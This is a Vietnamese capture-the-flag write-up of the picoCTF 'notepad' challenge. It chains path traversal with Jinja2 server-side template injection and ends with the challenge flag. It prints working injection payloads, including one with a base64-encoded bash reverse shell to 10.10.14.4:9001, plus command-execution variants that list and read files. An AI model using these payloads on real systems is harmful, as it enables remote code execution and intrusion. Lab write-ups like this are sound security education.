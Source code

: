 # Overview #
- Points : 100
- Tags : `Web Exploitation`
# Description #
This note-taking site seems a bit off.  https://notepad.mars.picoctf.net/

src: https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/notepad/notepad.tar
# Observe #
![image](https://github.com/Aowpu/CTF/assets/130723782/3a2a539d-fb32-400d-bae1-0a81b6b60bc5)
- Mã trên tạo một ứng dụng Flask cho phép bạn nhập nội dung và tạo ra các trang web tĩnh.
Nó kiểm tra nội dung đã nhập và sau đó tạo một tệp HTML tương ứng để hiển thị nội dung. 

![image](https://github.com/Aowpu/CTF/assets/130723782/65f6f399-7e9d-4921-9916-f6a246f869b7)
- Tệp index.html cho thấy thấy rằng nó sẽ hiện ra lỗi nếu có nên tôi đã thử cho error là 1 thứ gì đó bất kì
![image](https://github.com/Aowpu/CTF/assets/130723782/ab45f4b9-aee2-460f-aa8e-1e05ef4cced5)
![image](https://github.com/Aowpu/CTF/assets/130723782/5fea4dff-f48f-4915-821a-a6d5551bc0d7)
- Trong đoạn code trên có thể thấy nó đã tạo tệp name, tên của tệp là 128 kí tự đầu tiên của nội dụng và mã thông báo ngẫu nhiên
- Có một điều rằng chúng ta có thể dựa trên url_fix(content[:128]) cho thấy khi tìm kiếm thì url_fix sẽ biến \ thành / mà ở trong
điều kiện không hề cấm điều này. Chúng ta có thể sử dụng điều này để duyệt qua hệ thống tập tin.
# Attack #
- Mình đã nghĩ đến lỗ hổng SSTI vì kiểm tra dữ liệu đầu vào ở đây không nghiêm ngặt
- Chúng ta có thể tạo mẫu lỗi của riêng mình bằng cách sử dụng kỹ thuật truyền tải đường dẫn để tạo một tệp trong thư templates/errors
  ![image](https://github.com/Aowpu/CTF/assets/130723782/079c3739-77c7-404a-93f5-052175a0da00)
- Sau khi gửi nó đã hiện ra not found bởi vì chúng ta đã ghi vào một tệp bên ngoài thư mục tĩnh nên không thể truy cập bằng /static/...
- Tuy nhiên, chúng ta có thể kiểm tra payload bằng cách chuyển tên tệp vào phần error
  ![image](https://github.com/Aowpu/CTF/assets/130723782/2754cf1e-4b42-4938-9797-780ad7e1056c)
- Payload đã được in lại
- Chúng ta có thể sử dụng SSTI(Sever-side template injection) để truy xuất cờ.
- Tôi đã tìm thấy bài viết trong hacktricks về cách khai thác lỗ hổng SSTI này ở bài Jinja2 SSTI và câu lệnh dùng để injection vào hệ thống
- "{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzkwMDEgMD4mMQ== | base64 -d | bash")["read"]() %} a {% endwith %}"
- Sau khi đọc dòng lệnh trên tôi đã thay đổi 1 số chỗ để phù hợp với bài này, đoạn mã hóa base 64 ở câu lệnh trên tôi sẽ đổi nó bởi vì theo Dockerfile được cung cấp cho thấy tệp chứa cờ nằm trong thư mục gốc của UUID ngẫu nhiên.
Vì vậy chùng ta cần tìm tên file của lá cờ
- Chúng ta sẽ sửa đoạn base 64 thành "ls /app" sau đó mã hóa b64 bởi vì thứ chúng ta muốn echo bây giờ là file của lá cờ trong thư mục app
- Đoạn mã sẽ injection vào là
  " {% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n bHMgL2FwcA== | base64 -d | bash")["read"]() %} {{a}} {% endwith %} "
-  Vì tên tệp nó sẽ lấy 128 kí tự đầu do dùng câu lệnh url_fix(content[:128]) nên chúng ta sẽ chèn sao cho đủ 128 kí tự ở đầu cho đầy để không phần nào của injection được lưu vào tên của file
-  Sau khi gửi câu lệnh
-  ![image](https://github.com/Aowpu/CTF/assets/130723782/0fdd859f-12cc-41d9-b981-6eeaecfadcf7)
- Nó đã trả về tên tệp trên thanh tìm kiếm
- Thực hiện các bước chèn tên tệp vào sau error chúng ta đã tìm file chứa flag
     ![image](https://github.com/Aowpu/CTF/assets/130723782/af0cb711-02ec-47e7-a3ea-5cf0041a28b7)
- Sau đó chúng ta cat file đó ra bằng cách lại thay đoạn mã hóa base 64 trong câu lệnh injection trên bằng câu lệnh "cat flag-c8f5526c-4122-4578-96de-d7dd27193798.txt"
  và rồi thực hiện lại các bước trên để hiện ra flag
![image](https://github.com/Aowpu/CTF/assets/130723782/a7f7176d-a611-40da-ba31-2d1dcb7fbf91)
# Flag: picoCTF{styl1ng_susp1c10usly_s1m1l4r_t0_p4steb1n} #
